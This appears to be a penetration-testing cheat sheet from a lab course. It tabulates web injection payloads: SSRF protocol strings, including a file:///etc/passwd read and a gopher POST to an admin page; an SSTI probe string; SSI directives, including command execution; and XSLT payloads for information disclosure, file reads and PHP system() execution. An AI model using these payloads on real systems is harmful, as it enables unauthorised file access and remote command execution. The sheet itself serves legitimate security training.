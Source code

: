 |**Exploitation**||
|---|---|
||internal portscan by accessing ports on localhost|
||accessing restricted endpoints|
|**Protocols**||
||`http://127.0.0.1/`|
||`file:///etc/passwd`|
||`gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin`|

## SSTI

|**Exploitation**||
|---|---|
||Templating Engines are used to dynamically generate content|
|**Test String**||
||`${{<%[%'"}}%\.`|

## SSI Injection - Directives

|Print variables|`<!--#printenv -->`|
|---|---|
|Change config|`<!--#config errmsg="Error!" -->`|
|Print specific variable|`<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->`|
|Execute command|`<!--#exec cmd="whoami" -->`|
|Include web file|`<!--#include virtual="index.html" -->`|

## XSLT Injection

### Elements

|`<xsl:template>`|This element indicates an XSL template. It can contain a `match` attribute that contains a path in the XML-document that the template applies to|
|---|---|
|`<xsl:value-of>`|This element extracts the value of the XML node specified in the `select` attribute|
|`<xsl:for-each>`|This elements enables looping over all XML nodes specified in the `select` attribute|
|`<xsl:sort>`|This element specifies the node to sort elements in a for loop by in the `select` argument. Additionally, a sort order may be specified in the `order` argument|
|`<xsl:if>`|This element can be used to test for conditions on a node. The condition is specified in the `test` argument|

### Injection Payloads

|**Information Disclosure**||
|---|---|
||`<xsl:value-of select="system-property('xsl:version')" />`|
||`<xsl:value-of select="system-property('xsl:vendor')" />`|
||`<xsl:value-of select="system-property('xsl:vendor-url')" />`|
||`<xsl:value-of select="system-property('xsl:product-name')" />`|
||`<xsl:value-of select="system-property('xsl:product-version')" />`|
|**LFI**||
||`<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`|
||`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`|
|**RCE**||
||`<xsl:value-of select="php:function('system','id')" />`|

